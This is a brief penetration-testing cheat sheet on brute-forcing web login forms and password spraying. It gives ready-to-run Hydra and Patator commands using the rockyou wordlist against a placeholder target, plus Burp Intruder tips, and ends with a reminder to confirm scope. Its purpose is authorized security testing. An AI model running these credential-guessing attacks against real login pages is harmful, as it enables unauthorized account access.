 # Web Authentication Brute Force / Password Spraying

## Hydra (POST form)

hydra -l admin -P /usr/share/wordlists/rockyou.txt <TARGET_IP> \
http-post-form "/login.php:user=^USER^&pass=^PASS^:Invalid credentials"
Hydra (GET request)

hydra -l admin -P rockyou.txt <TARGET_IP> http-get /admin/
Patator

patator http_fuzz method=POST url="http://<TARGET_IP>/login.php" \
body="username=FILE0&password=FILE1" 0=/root/users.txt 1=/root/passwords.txt
Burp Suite Intruder
Use Pitchfork for user/pass combinations

Grep-Match on failure/success strings

Tip: Always validate that brute forcing is in-scope before running.
